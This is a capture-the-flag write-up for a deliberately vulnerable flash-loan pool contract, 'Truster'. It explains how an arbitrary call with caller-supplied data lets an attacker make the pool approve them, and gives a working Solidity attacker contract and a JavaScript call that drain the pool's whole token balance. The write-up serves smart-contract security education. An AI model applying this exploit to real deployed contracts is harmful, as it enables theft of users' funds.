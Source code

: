 # Challenge 3 — Truster

## Description

The `TrusterLenderPool` contract, offering flash loans of DVT tokens for free, contains the `flashLoan` functions with the arguments:

- `borrowAmount`: the amount of the flash loan.
- `borrower`: the address of the borrower to which the funds will be sent.
- `target`: an address to perform a function call into with a payload defined as the `data` parameter.

At the end of the `flashLoan` function, there is still a check which consists of ensuring that the amount available on the contract at the end of the flash loan is indeed greater than or equal to the amount before the flash loan. This guarantees that the flash loan has been repaid by the borrower.

## Vulnerability

Inside the `flashLoan` function, there is no safety mechanism to know which function is called in the `call` from the loanee contract to repay the loan. Instead, the loanee contract can call whatever function it wants using the `data` argument.

We can then imagine passing the `approve` function of the ERC20 standard here, so that the attacker's address takes possession of all the tokens available in the contract. The arguments of the `approve` function in this case will therefore be:

- `spender`: the attacker's address.
- `amount`: the total pool supply.

Thanks to the `functionCall`, the `TrusterLenderPool` smart contract will be considered as the `msg.sender` when calling the `approve` function.

In order for the transaction to be validated and for the entire function to run correctly, the last verification must be passed concerning the amount available on the contract after the flash loan, which must be greater than or equal to the amount before. But if the amount to borrow, defined by the borrower is 0, then there is nothing to repay and the borrower is not obliged to make any repayment.


## How to exploit?

1. Create a `TrusterAttacker` contract that calls the `flashLoan` function from the `TrusterLenderPool` pool.

	```solidity
	contract TrusterAttacker {
	    using SafeMath for uint256;
	    using Address for address payable;

	    constructor() public {}

	    function attack(IERC20 token, ITrusterLenderPool pool, address attackerEOA)
	        public
	    {
	        uint256 poolBalance = token.balanceOf(address(pool));
	        // IERC20::approve(address spender, uint256 amount)
	        // flashloan executes "target.call(data);", approve our contract to withdraw all liquidity
	        bytes memory approvePayload = abi.encodeWithSignature("approve(address,uint256)", address(this), poolBalance);
	        pool.flashLoan(0, attackerEOA, address(token), approvePayload);

	        // once approved, use transferFrom to withdraw all pool liquidity
	        token.transferFrom(address(pool), attackerEOA, poolBalance);
	    }
	}
	```

2. Pass the following arguments for the `flashLoan` call:

	-  `amount`: 0.
	- `borrower`: `TrusterAttacker` address.
	- `target`: DVT token address.
	- `data`: encoded `approve` function where the attacker is the `spender` and the pool’s balance is the `amount`

As we can see, the `attack` function here uses the `approve` function to give the right to the `TrusterAttacker` contract to transfer funds from the `TrusterLenderPool` pool on behalf of the pool. Thus, after this step, the ERC20 `transferFrom` function is used to directly transfer all the funds from the `TrusterLenderPool` pool to the `TrusterAttacker` contract.

3. Call the `attack` function of the `TrusterAttacker` contract:
	```javascript
	await this.attacker.attack(this.token.address, this.pool.address, attacker);
	```

4. All the funds of the `TrusterLenderPool` pool are transferred from the pool to the attacker address.
